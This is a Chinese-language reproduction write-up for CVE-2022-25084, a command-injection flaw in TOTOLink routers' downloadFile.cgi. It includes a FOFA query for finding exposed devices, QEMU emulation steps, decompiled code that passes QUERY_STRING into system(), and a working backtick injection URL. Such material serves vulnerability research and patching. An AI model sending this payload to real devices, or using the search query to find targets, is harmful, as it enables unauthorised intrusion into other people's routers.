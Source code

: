 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

```
TOTOLink 多个设备
```

## FOFA

```
"totolink"
```

## 漏洞复现

下载路由器固件

![image-20220519180647333](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191806401.png)

使用binwalk分解固件

![image-20220519180700129](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191807189.png)

查看分解出来的文件

![image-20220519180713772](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191807833.png)

使用qemu搭建路由器

```
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![image-20220519180729455](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191807515.png)

启动后访问路由器页面

![image-20220519180743756](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191807814.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![image-20220519180807271](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191808361.png)

分析 cgi文件 `downloadFile.cgi`

![image-20220519180821187](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191808273.png)

我们注意到其中的system执行命令

```
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![image-20220519180833486](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191808559.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![image-20220519180852180](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191808272.png)